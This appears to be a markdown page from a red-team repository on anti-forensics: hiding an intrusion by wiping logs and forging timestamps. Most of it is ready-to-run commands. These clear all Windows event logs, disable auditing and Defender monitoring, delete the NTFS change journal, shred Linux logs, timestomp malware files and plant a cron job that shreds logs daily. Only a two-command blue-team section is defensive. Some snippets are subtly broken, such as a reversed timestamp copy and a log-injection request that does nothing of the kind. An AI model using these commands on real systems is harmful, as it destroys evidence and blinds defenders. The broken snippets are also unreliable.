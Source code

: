 # Paw prints in the wind: Disappearing without a trace

*"The best operations never appear in the SIEM—only in the aftermath."*

## Log obliteration techniques

### Windows Systems

#### Event log manipulation

```powershell
# Nuclear Option (Clears all logs)
wevtutil el | Foreach-Object {wevtutil cl "$_"}

# Surgical Strikes (Security log only)
Clear-EventLog -LogName Security
```

#### Audit policy neutralization

```
:: Disable future logging
auditpol /clear /y
auditpol /set /category:"Object Access","Account Logon" /success:disable /failure:disable
```

#### USN Journal wiping (NTFS artifacts)

```powershell
fsutil usn deletejournal /D C:  # Destroys file change records
```

### Linux systems

```bash
# Multi-tool log sanitization
echo "" > /var/log/auth.log
journalctl --vacuum-time=1s  # Systemd logs
find /var/log -type f -exec shred -n 3 -u {} \;  # Physical destruction
```

## Timestomping & metadata warfare

### File Timestamp Forgery

```powershell
# Copy timestamps from legitimate system files (Windows)
(Get-Item legit.dll).LastWriteTime = (Get-Item malware.exe).LastWriteTime
```

```bash
# Linux timestamp laundering
touch -r /bin/bash ./malware.sh  # Inherits bash's timestamps
```
`
### $MFT Manipulation (NTFS)

```
# Requires physical disk access
icacls C:\$MFT /grant Administrators:F  # Unlock MFT
python3 mft_editor.py --target C:\ --timedelta="-7d"  # Shift all timestamps
```

## Anti-Forensic Toolbox (2025 Edition)

| Tool	           | Purpose	                                | OpSec Risk                   |
|-----------------|-----------------------------------------|------------------------------|
| Slackercleaner	 | Multi-platform log wiping	Moderate      | (known IOCs)                 |
| Timestomp-NG	   | Nanosecond-precision timestamp forgery	 | Low                          |
| SysmonKiller	   | Disables Sysmon via driver unload	      | High (requires admin)        |
| MemPurge	       | Wipes RAM artifacts pre-reboot	         | Critical (must be last step) |

Chain tools with living-off-the-land binaries:

```powershell
# Disable Defender logging via LOLBin
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIOAVProtection $true
```

## Real-World OpSec failure (2024 case study)

Operation "Midnight Sun" Failure Points:

* Left Prefetch files intact (C:\Windows\Prefetch\RMM.exe)
* Failed to clear Windows Error Reporting crashes (%ProgramData%\Microsoft\Windows\WER)
* RDP bitmap cache revealed attacker desktop (%LocalAppData%\Microsoft\Terminal Server Client\Cache)

Corrected 2025 Procedure:

```powershell
# Full artifact sterilization
Remove-Item -Path "$env:LOCALAPPDATA\Microsoft\Terminal Server Client\Cache\*" -Force
Cleanmgr /sagerun:6174  # Disk Cleanup silent mode
```

## Red team best practices

Pre-Operation:  Map all logging systems (SIEM, EDR, LAPS) and identify immutable logs (e.g., Azure Sentinel)

During Operation, use network-based log injection to corrupt SIEM feeds

```python
# Fake 404 errors to mask malicious traffic
requests.get("https://victim.com/login", headers={"X-Forwarded-For": "192.168.1.1"})
```

Post-Operation: Deploy counter-forensic sleepers:

```bash
# Linux cronjob to overwrite logs daily
(crontab -l 2>/dev/null; echo "0 3 * * * shred -n 1 /var/log/*.log") | crontab -
````

## Blue team countermeasures (Test traces)

```bash
# Hunt for timestamp anomalies (Linux)
find / -type f -newermt "2025-01-01" ! -newermt "2025-01-02" -exec ls -l {} \;

# Windows Event Log gaps
Get-WinEvent -LogName Security | Group-Object -Property Id | Where Count -lt 10
```

## 2025

In 2025, forensic teams hunt at the nanosecond level. Your timestomping should be measured in Planck time.

## Required tools

* [TimeSketch (For Testing Your Traces)](https://github.com/google/timesketch)

## Operational checklist

- ✅ Test all cleanup scripts in VM snapshots before deployment
- ✅ Identify immutable cloud logs (AWS CloudTrail, Azure Activity) early
- ✅ Leave false [flags](flag.md) as distraction